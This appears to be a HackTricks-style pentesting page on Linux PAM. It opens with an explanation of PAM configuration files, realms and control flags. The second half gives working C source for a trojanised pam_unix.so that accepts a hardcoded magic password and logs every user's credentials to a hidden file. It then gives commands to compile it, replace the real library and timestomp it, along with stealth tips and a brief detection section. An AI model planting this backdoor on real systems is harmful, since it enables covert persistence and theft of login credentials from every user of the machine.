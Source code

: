 # PAM - Pluggable Authentication Modules

{{#include ../../banners/hacktricks-training.md}}

### Basic Information

**PAM (Pluggable Authentication Modules)** acts as a security mechanism that **verifies the identity of users attempting to access computer services**, controlling their access based on various criteria. It's akin to a digital gatekeeper, ensuring that only authorized users can engage with specific services while potentially limiting their usage to prevent system overloads.

#### Configuration Files

- **Solaris and UNIX-based systems** typically utilize a central configuration file located at `/etc/pam.conf`.
- **Linux systems** prefer a directory approach, storing service-specific configurations within `/etc/pam.d`. For instance, the configuration file for the login service is found at `/etc/pam.d/login`.

An example of a PAM configuration for the login service might look like this:

```
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_nologin.so
auth sufficient /lib/security/pam_ldap.so
auth required /lib/security/pam_unix_auth.so try_first_pass
account sufficient /lib/security/pam_ldap.so
account required /lib/security/pam_unix_acct.so
password required /lib/security/pam_cracklib.so
password required /lib/security/pam_ldap.so
password required /lib/security/pam_pwdb.so use_first_pass
session required /lib/security/pam_unix_session.so
```

#### **PAM Management Realms**

These realms, or management groups, include **auth**, **account**, **password**, and **session**, each responsible for different aspects of the authentication and session management process:

- **Auth**: Validates user identity, often by prompting for a password.
- **Account**: Handles account verification, checking for conditions like group membership or time-of-day restrictions.
- **Password**: Manages password updates, including complexity checks or dictionary attacks prevention.
- **Session**: Manages actions during the start or end of a service session, such as mounting directories or setting resource limits.

#### **PAM Module Controls**

Controls dictate the module's response to success or failure, influencing the overall authentication process. These include:

- **Required**: Failure of a required module results in eventual failure, but only after all subsequent modules are checked.
- **Requisite**: Immediate termination of the process upon failure.
- **Sufficient**: Success bypasses the rest of the same realm's checks unless a subsequent module fails.
- **Optional**: Only causes failure if it's the sole module in the stack.

#### Example Scenario

In a setup with multiple auth modules, the process follows a strict order. If the `pam_securetty` module finds the login terminal unauthorized, root logins are blocked, yet all modules are still processed due to its "required" status. The `pam_env` sets environment variables, potentially aiding in user experience. The `pam_ldap` and `pam_unix` modules work together to authenticate the user, with `pam_unix` attempting to use a previously supplied password, enhancing efficiency and flexibility in authentication methods.


## Backdooring PAM – Hooking `pam_unix.so`

A classic persistence trick in high-value Linux environments is to **swap the legitimate PAM library with a trojanised drop-in**.  Because every SSH / console login ends up calling `pam_unix.so:pam_sm_authenticate()`, a few lines of C are enough to capture credentials or implement a *magic* password bypass.

### Compilation Cheatsheet
```c
#define _GNU_SOURCE
#include <security/pam_modules.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static int (*orig)(pam_handle_t *, int, int, const char **);
static const char *MAGIC = "Sup3rS3cret!";

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    const char *user, *pass;
    pam_get_user(pamh, &user, NULL);
    pam_get_authtok(pamh, PAM_AUTHTOK, &pass, NULL);

    /* Magic pwd → immediate success */
    if(pass && strcmp(pass, MAGIC) == 0) return PAM_SUCCESS;

    /* Credential harvesting */
    int fd = open("/usr/bin/.dbus.log", O_WRONLY|O_APPEND|O_CREAT, 0600);
    dprintf(fd, "%s:%s\n", user, pass);
    close(fd);

    /* Fall back to original function */
    if(!orig) {
        orig = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    }
    return orig(pamh, flags, argc, argv);
}
```

Compile and stealth-replace:
```bash
gcc -fPIC -shared -o pam_unix.so trojan_pam.c -ldl -lpam
mv /lib/security/pam_unix.so /lib/security/pam_unix.so.bak
mv pam_unix.so /lib/security/pam_unix.so
chmod 644 /lib/security/pam_unix.so     # keep original perms
touch -r /bin/ls /lib/security/pam_unix.so  # timestomp
```

### OpSec Tips
1. **Atomic overwrite** – write to a temp file and `mv` into place to avoid half-written libraries that would lock out SSH.
2. Log file placement such as `/usr/bin/.dbus.log` blends with legitimate desktop artefacts.
3. Keep symbol exports identical (`pam_sm_setcred`, etc.) to avoid PAM mis-behaviour.

### Detection
* Compare MD5/SHA256 of `pam_unix.so` against distro package.
* Check for world-writable or unusual ownership under `/lib/security/`.
* `auditd` rule: `-w /lib/security/pam_unix.so -p wa -k pam-backdoor`.

### References

- [https://hotpotato.tistory.com/434](https://hotpotato.tistory.com/434)
- [Palo Alto Unit42 – Infiltration of Global Telecom Networks](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)

{{#include ../../banners/hacktricks-training.md}}



